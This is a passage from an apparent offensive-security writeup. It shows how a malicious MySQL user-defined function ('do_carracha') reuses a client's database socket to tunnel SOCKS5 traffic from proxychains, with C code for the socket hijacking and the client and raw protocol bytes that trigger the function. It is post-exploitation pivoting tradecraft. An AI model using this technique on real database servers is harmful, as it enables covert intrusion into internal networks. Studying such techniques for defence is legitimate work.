 ```c
					write(i, "Now I am become Death\n", strlen("Now I am become Death\n") + 1); // Say hello to our client!
					}
				} 
		}
		memset(&client_addr, 0, sizeof(client_addr));
	}
...
```


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
In a few lines we have hunted the sacred socket __:)__. Now let's move to the client side!

## Connecting proxychains to the MySQL service
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The easiest way to initiate the communication is using the MySQL C API. We are going to take the sample code from this [tutorial](http://zetcode.com/db/mysqlc/) to stablish the connection with the server and then use directly the opened socket to execute the query (__do_carracha('whatever')__) and start the communication:

```c
void proxy_init(int sock){
	...
	write(sock, "\31\x00\x00\00\x03select do_carracha('a');", 30); // Execute query "select do_carracha('a')"
	...
}

int main (int argc, char **argv) {
	MYSQL *con = mysql_init(NULL);
	
	if (con == NULL) {
		fprintf(stderr, "%s\n", mysql_error(con));
		exit(1);
	}
	if (mysql_real_connect(con, "Y.Y.Y.Y", "username", "password", NULL, 0, NULL, 0) == NULL) {
		fprintf(stderr, "%s\n", mysql_error(con));
		mysql_close(con);
		exit(1);
	}

	proxy_init(3); // 3 is the socket (0 -> stdin, 1 -> stdout, 2 -> stderr)
	exit(0);
}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Our client is going to take care of open a local port and forward messages between proxychains and the MySQL connection, so whatever it receives from proxychains is going to be sent to the server and viceversa. This can be accomplished with selects (check the final PoC).

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
At this point we have a client to communicate proxychains with the MySQL service and a UDF that will reuse the client's socket to send/receive messages. The only remaining thing to solve is to implement the SOCKS5 logic in the UDF.
